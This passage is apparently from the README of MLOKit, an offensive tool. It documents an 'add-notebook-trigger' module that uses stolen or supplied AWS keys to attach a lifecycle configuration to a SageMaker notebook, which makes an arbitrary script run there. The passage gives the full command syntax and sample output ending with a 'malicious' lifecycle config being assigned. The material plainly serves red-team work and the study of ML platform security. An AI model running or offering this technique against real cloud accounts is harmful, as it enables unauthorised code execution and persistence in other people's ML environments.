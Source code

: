 ### Add Notebook Trigger

#### Use Case

> *Add a trigger for a given notebook to gain code execution*

#### Syntax

Supply the `add-notebook-trigger ` modules, along with the MLOps platform in the `/platform:` command argument.  Additionally, provide a credential in the `/credential:` command argument and a notebook to target in the `/notebook-name:` argument. Finally, add a path to a script file you would like to execution within the notebook environment cloud compute via the `/script:` command argument.


##### SageMaker

`MLOKit.exe add-notebook-trigger /platform:sagemaker /credential:[ACCESS_KEY;SECRET_KEY] /region:[REGION_NAME] /notebook-name:[NOTEBOOK_NAME] /script:[PATH_TO_SCRIPT]`

##### Example Output

```

C:\>MLOKit.exe add-notebook-trigger /platform:sagemaker /credential:access_key;secret_key /region:us-east-2 /notebook-name:brett-test-notebook /script:C:\Demo\test.sh

==================================================
Module:         add-notebook-trigger
Platform:       sagemaker
Timestamp:      1/28/2025 12:50:20 PM
==================================================


[*] INFO: Performing add-notebook-trigger module for sagemaker

[*] INFO: Checking credentials provided

[*] INFO: Creating notebook instance lifecycle config

[+] SUCCESS: Notebook instance lifecycle config created with name: MLOKit-TdXhtHNc

[*] INFO: Stopping target notebook instance with name: brett-test-notebook

                                     Notebook Name |        Creation Date |      Notebook Status |      Notebook Lifecycle Config
---------------------------------------------------------------------------------------------------------------------------------
                               brett-test-notebook |            1/28/2025 |             Stopping |

[*] INFO: Sleeping for 2 minutes to allow time for notebook to stop

[+] SUCCESS: Notebook instance with name of brett-test-notebook has been stopped successfully.

[*] INFO: Updated notebook named brett-test-notebookwith lifecycle config with name MLOKit-TdXhtHNc

                                     Notebook Name |        Creation Date |      Notebook Status |      Notebook Lifecycle Config
---------------------------------------------------------------------------------------------------------------------------------
                               brett-test-notebook |            1/28/2025 |             Updating |

[*] INFO: Sleeping for 2 minutes to allow time for notebook instance lifecycle config to be assigned

[+] SUCCESS: Malicious notebook instance lifecycle config assigned to notebook with name: brett-test-notebook
```